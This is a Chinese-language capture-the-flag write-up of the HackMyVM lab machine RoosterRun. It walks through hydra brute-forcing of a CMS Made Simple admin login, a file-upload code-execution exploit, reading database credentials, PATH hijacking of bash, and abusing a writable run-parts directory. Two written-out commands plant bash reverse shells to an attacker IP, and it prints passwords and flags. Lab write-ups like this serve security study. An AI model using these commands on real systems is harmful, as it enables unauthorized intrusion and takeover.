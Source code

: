 # RoosterRun

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=RoosterRun

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 发现 CMS: CMS Made Simple version 2.2.9.1 找到登陆窗口 http://192.168.5.40/admin/login.php ，在 news 中看到了一个用户名 admin 进行一下爆破：

```
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -f http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"

[80][http-post-form] host: 192.168.5.40   login: admin   password: homeandaway
```

找到了管理员密码，登陆到系统，参照 https://www.exploit-db.com/exploits/48742 这里在 FileManager 中可以上传 pthml 文件，进而执行代码。

上传至 upload 文件夹上，然后访问，就会在 kali 上得到反弹的 shell。

发现这个 CMS 的数据库配置文件：

```
www-data@rooSter-Run:/var/www/html$ cat config.php
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'admin';
$config['db_password'] = 'j42W9kDq9dN9hK';
$config['db_name'] = 'cmsms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin';
```

但是这个密码不是用户 matthieu 的。

/opt 目录被设置了 acl，进行更详细查看：

```
getfacl -R -s -p / 2>/dev/null

# file: //usr/local/bin
# owner: root
# group: root
user::rwx
user:www-data:rwx
user:matthieu:r-x
group::---
mask::rwx
other::---
```

发现 www-data 用户可以修改 /usr/local/bin , 同时 /usr/local/bin 在 $PATH 中第二项。

在 /home/matthieu/中发现一个脚本 StaleFinder ，其中的 echo 没有使用全局路径，在 /usr/bin 中有 echo，但是 /usr/local/bin 这个在 PATH 中比/usr/bin 位置靠前，可以进行命令劫持。

盲猜 StaleFinder 脚本应该是某个用户执行的定时任务，这里看到第一行 #!/usr/bin/env bash ，会从 path 中查找 bash，这里可以劫持 bash 命令：

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /usr/local/bin/bash
chmod +x /usr/local/bin/bash
```

同时在 kali 上创建监听，等待反弹。

拿到了 user flag:

```
matthieu@rooSter-Run:~$ cat user.txt
32af3c9a9cb2fb748aef29457d8cff55
```

在 /opt/maintenance 中发现 backup.sh 文件，pre-prod-tasks 和 prod-tasks 文件夹对其他用户有写权限，最后执行 /usr/bin/run-parts /opt/maintenance/prod-tasks 中的脚本文件。

if -O 参数会检测当前执行脚本的用户 id 和这个文件的所属用户的 id 是否一致，一致返回 true。换句话就是这个文件是否是属于当前执行 if 判断命令的用户：

```
if [ -O /etc/passwd ]; then echo "owner"; else echo "not owner"; fi
```

向 pre-prod-tasks 中写入 sh 脚本:

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8889 0>&1"' > /opt/maintenance/pre-prod-tasks/run.sh; chmod +x /opt/maintenance/pre-prod-tasks/run.sh
```

/usr/bin/run-parts 默认情况下执行的脚本不能带扩展名(如果没有给出 --lsbsysinit 选项或 --regex 选项，则名称必须完全由 ASCII 大写和小写字母、ASCII 数字、ASCII 下划线和 ASCII 减号连字符组成)，所以在文件执行 cp 后，执行 mv 操作去掉 sh 后缀：

```
matthieu@rooSter-Run:/opt/maintenance/prod-tasks$ mv run.sh run
```

等待 1 分钟，反弹 shell 执行，拿到了最终的 flag:

```
cat root.txt
670ff72e9d8099ac39c74c080348ec17
```
